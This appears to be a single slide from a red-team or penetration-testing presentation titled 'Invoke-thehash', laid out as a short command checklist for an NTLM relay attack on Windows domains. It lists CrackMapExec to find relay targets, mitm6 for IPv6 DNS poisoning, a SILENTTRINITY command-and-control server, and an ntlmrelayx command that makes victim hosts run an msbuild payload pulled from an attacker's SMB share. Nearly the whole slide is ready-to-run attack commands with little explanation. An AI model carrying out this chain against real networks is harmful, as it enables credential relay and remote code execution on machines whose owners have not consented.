

# Invoke-thehash
Tools
CrackMapExec - identify vulnerable targets
cme smb <CIDR> --gen-relay-list targets.txt

MITM6
mitm6 -d domain.local

SILENTTRINITY
python3 ./teamserver.py <ip> <password>
python3 ./st.py wss://user:password@10.1.10.136:5000
Follow steps to generate msbuild payload
Move to an smb share (impacket smbserver is good)
ntlmrelayx.py
ntlmrelayx.py -6 -wh attacker.local -tf ./targets.txt -l /tmp/ -c ‘C:\Windows\Microsoft.NET\Framework64\v3.5\msbuild.exe \\attackerip\SMB\msbuild.xml